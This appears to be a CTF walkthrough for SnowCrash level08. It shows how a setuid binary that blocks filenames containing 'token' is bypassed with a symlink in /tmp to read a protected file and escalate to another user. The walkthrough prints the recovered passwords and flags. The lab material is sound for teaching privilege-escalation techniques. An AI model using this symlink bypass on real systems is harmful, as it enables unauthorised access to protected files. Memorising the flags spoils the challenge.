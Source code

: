 # Level 08

</br></br>

## file list in home
```zsh
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ ltrace ./level08 
__libc_start_main(0x8048554, 1, 0xbffff7f4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)                                        = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
</br></br>

## execute level08
```zsh
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                          = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                      = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

</br></br>

probleme concernant le nom de fichier!
donc, on peut le faire avec symbolick link!


## create folder and symbolic link file without "token"
```zsh
level08@SnowCrash:~$ mkdir /tmp/level08
level08@SnowCrash:/tmp/level08$ ln -s ~/token symbolic-link
level08@SnowCrash:/tmp/level08$ ls -l
total 0
lrwxrwxrwx 1 level08 level08 24 Apr 14 16:28 symbolic-link -> /home/user/level08/token
``` 
</br></br>

## execute token file with /tmp/level08/symbolic-link
```zsh
level08@SnowCrash:/tmp/level08$ cd
level08@SnowCrash:~$ ./level08 /tmp/level08/symbolic-link 
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ ./level08 /tmp/level08/symbolic-link 
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password: 
"Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f"
flag08@SnowCrash:~$ su level09
Password: 
level09@SnowCrash:~$
```